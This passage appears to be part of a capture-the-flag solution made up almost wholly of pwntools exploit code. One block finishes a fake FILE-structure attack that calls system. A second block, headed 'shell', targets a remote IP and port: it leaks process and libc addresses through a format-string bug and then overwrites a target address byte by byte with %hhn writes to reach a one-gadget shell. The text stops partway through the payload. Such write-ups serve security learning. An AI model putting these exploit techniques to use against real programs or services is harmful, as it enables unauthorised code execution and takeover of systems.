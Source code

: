 ```python
fake_IO_FILE += p64(0) + p64(libc_base + libc.sym['system'])
new(3,0x200,'\x00'*0x200 + fake_IO_FILE)
menu(1)
p.sendline('4')
p.sendline(str(0x200))
p.interactive()
```


### shell

```python
from pwn import*
context.log_level = 'DEBUG'
p = process('./main')
p = remote('182.92.203.154',35264)
libc =ELF('./libc-2.23.so')
p.sendline('fg %12$p')
p.recvuntil('0x')
proc_base = int(p.recv(12),16)  - 0x203169
log.info('Proc:\t' + hex(proc_base))



payload  = 'fg %174$s'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030B8)
p.sendline(payload)
libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['getopt']
log.info('LIBC:\t' + hex(libc_base))


payload  = 'fg %' + str((libc_base + 0x45226)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8)
p.sendline(payload )

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>8)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 1)
p.sendline(payload )

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>16)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 2)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>24)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 3)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>32)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
payload += p64(proc_base + 0x2030C8 + 4)
p.sendline(payload)

sleep(0.2)
payload  = 'fg %' + str(((libc_base + 0x45226)>>40)&0xFF) + 'c%174$hhn'
payload  = payload.ljust(0x10,'U')
```